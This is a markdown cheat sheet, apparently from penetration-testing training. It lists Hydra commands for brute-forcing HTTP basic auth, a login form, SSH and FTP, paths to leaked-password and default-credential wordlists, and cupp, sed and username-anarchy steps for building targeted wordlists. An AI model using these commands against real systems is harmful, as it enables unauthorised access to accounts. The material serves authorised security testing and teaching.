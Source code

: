 # Hydra

| **Command**   | **Description**   |
| --------------|-------------------|
| `hydra -C wordlist.txt SERVER_IP -s PORT http-get /` | Basic Auth Brute Force - Combined Wordlist |
| `hydra -L wordlist.txt -P wordlist.txt -u -f SERVER_IP -s PORT http-get /` | Basic Auth Brute Force - User/Pass Wordlists |
| `hydra -l admin -P wordlist.txt -f SERVER_IP -s PORT http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"` | Login Form Brute Force - Static User, Pass Wordlist |
| `hydra -L bill.txt -P william.txt -u -f ssh://SERVER_IP:PORT -t 4` | SSH Brute Force - User/Pass Wordlists |
| `hydra -l m.gates -P rockyou-10.txt ftp://127.0.0.1` | FTP Brute Force - Static User, Pass Wordlist |

# Wordlists

| **Command**   | **Description**   |
| --------------|-------------------|
| `/opt/useful/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt` | Default Passwords Wordlist |
| `/opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt` | Common Passwords Wordlist |
| `/opt/useful/SecLists/Usernames/Names/names.txt` | Common Names Wordlist |

# Misc

| **Command**   | **Description**   |
| --------------|-------------------|
| `cupp -i` | Creating Custom Password Wordlist |
| `sed -ri '/^.{,7}$/d' william.txt` | Remove Passwords Shorter Than 8 |
| ```sed -ri '/[!-/:-@\[-`\{-~]+/!d' william.txt``` | Remove Passwords With No Special Chars |
| `sed -ri '/[0-9]+/!d' william.txt` | Remove Passwords With No Numbers |
| `./username-anarchy Bill Gates > bill.txt` | Generate Usernames List ||